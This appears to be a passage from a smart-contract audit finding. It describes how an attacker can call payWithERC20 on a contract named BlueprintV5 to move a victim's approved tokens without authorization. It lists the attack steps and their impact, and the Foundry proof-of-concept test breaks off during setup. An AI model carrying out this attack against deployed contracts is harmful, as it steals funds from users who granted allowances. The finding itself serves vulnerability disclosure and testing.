 - User approves the contract to spend their tokens for legitimate operations (like creating an agent)
- Attacker calls payWithERC20 directly, specifying:

    The token address
     An amount within the approved allowance
- The user's address as fromAddress
- Any address (including their own) as toAddress


Contract executes the transfer without verifying the caller is authorized
User's tokens are transferred to the attacker's address or any address the attacker specified

### Impact

The affected parties (primarily users who have approved token allowances) suffer from:

- Unauthorized token transfers within their approved allowance
- Bypass of the intended gasless transaction flow
- Loss of funds without proper authorization

This vulnerability is particularly concerning because:

- It undermines the entire authorization model of the contract
- It makes the EIP-712 signature verification in other functions irrelevant since payments can be processed without signatures
- Users who approve tokens for legitimate operations become vulnerable to unauthorized transfers

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import {Test, console} from "forge-std/Test.sol";
import {Vm} from "forge-std/Vm.sol";
import {BlueprintV5} from "../src/BlueprintV5.sol";
import {BlueprintCore} from "../src/BlueprintCore.sol";
import {Blueprint} from "../src/Blueprint.sol";
import {MockERC20} from "./MockERC20.sol";

contract UnauthorizedPaymentPoCTest is Test {
    BlueprintV5 public blueprint;
    MockERC20 public mockToken;
    address public victim;
    address public attacker;
    address public feeCollector;
    
    function setUp() public {
        // Deploy contracts
        blueprint = new BlueprintV5();
        blueprint.initialize();
        mockToken = new MockERC20();
        
        // Setup fee collection wallet
        feeCollector = address(0x7D8be0Dd8915E3511fFDDABDD631812be824f578);
        blueprint.setFeeCollectionWalletAddress(feeCollector);
        
        // Setup victim account
        victim = vm.addr(0xB0B);
        
        // Setup attacker account
        attacker = vm.addr(0xA77ACK);
        
        // Configure payment token
        blueprint.addPaymentAddress(address(mockToken));
        
```